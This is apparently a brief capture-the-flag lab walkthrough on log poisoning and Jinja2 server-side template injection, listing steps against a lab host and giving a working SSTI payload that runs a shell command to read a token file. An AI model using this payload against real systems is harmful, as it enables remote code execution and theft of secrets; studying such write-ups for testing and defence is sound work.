

---
---

# IML - Log Poisoning

This is log poisoning and Jinja SSTI

**Reset if you get Internal Server Error**

Register new user

Go to search term and search for "user=admin"
While on that search result page - change the URL to <http://10.102.122.21/raw/log.txt>

You should be able to view the raw log file now

Go back to search and use the payload:

```text
{{x()._module.__builtins__['__import__']('os').popen("cat /tmp/token.txt").read()}}
```

Now search for user=admin again and go to <http://10.102.122.21/raw/log.txt>

- And we get the token:



<https://jayaye15.medium.com/jinja2-server-side-template-injection-ssti-9e209a6bbdf6>